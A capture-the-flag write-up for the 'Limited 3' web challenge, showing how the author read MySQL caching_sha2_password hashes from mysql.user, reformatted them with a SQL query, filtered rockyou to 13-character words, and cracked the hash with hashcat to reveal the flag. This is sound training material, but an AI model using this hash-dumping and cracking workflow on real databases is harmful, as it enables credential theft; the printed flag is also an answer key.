

# Limited 3

Author: SamXML

Note: This uses the same source as Limited 1.

There is a db user named: flag

The password for this user is 13 characters and can be found in rockyou.

Please wrap this password with wctf{} before submitting.

For example, if the password was hocuspocus123 then the flag would be wctf{hocuspocus123}

https://limited-app-974780027560.us-east5.run.app/

---

Note: If you haven't read `Limit 1` challenge yet, please read it [here]([Web]Limited1) before continuing as this challenge is the third in a series of 3 challenges.

In the source, we can see a initialize SQL file which is `initialize.sql`

```sql
USE ctf;

-- This password is 13 characters and can be found in rockyou.
-- It is the flag for one of the challenges using this source
-- BUT it needs to be wrapped by wctf{} before submitting.
create user 'flag' identified by 'REDACTED_FLAG';

grant select on mysql.user to ctf;
```

The flag must be in `mysql.user` table. For those of you who don't know about this table, check [here](https://mariadb.com/kb/en/mysql-user-table/). In this challenge, we only care for 2 columns: `user` and `authentication_string`

# Solution

We can retrieve the value of `authentication_string` - a column in the `mysql.user` table stores the hashed password of each user.



Because the hash does not start with an asterisk (*), it's not using `mysql_native_password`, which typically hashes passwords into a format like *<SHA1>.

Instead, we see the hash begins with `$A$`, which is the signature format of `caching_sha2_password` — the default and more secure authentication plugin in MySQL 8.0+

Howerver, this kind of hash cannot be crack with hashcat. We have to use the following query by [philsmd](https://github.com/philsmd) to dump the string that crackable

```sql
SELECT user, CONCAT('$mysql',LEFT(authentication_string,6),'*',INSERT(HEX(SUBSTR(authentication_string,8)),41,0,'*')) AS hash,null,null FROM mysql.user WHERE plugin = 'caching_sha2_password' AND authentication_string NOT LIKE '%INVALIDSALTANDPASSWORD%'
```

I got the hash here as `$mysql$A$005*29693735722F25767D7D76694D013D2F6F6F045A*4C71716D4F514E34484F41304E4F484C50625538314E7743703054784A5159753039354E6A6A77526E622F`

Saved into `hash.txt` and I wrote a simple Python script to filter out the password with length = 13 only

```Python
# Read rockyou.txt, filter passwords with exactly 13 characters, and write to rockyou_new.txt

input_file = 'rockyou.txt'
output_file = 'rockyou_new.txt'

with open(input_file, 'r', encoding='utf-8', errors='ignore') as f_in, \
     open(output_file, 'w', encoding='utf-8') as f_out:
    for line in f_in:
        password = line.strip()
        if len(password) == 13:
            f_out.write(password + '\n')
```

Then I ran `hashcat -a 0 -m 7401 --force hash.txt rockyou_new.txt`  
Cracked the password, that is `maricrissarah`

# Flag: `wctf{maricrissarah}`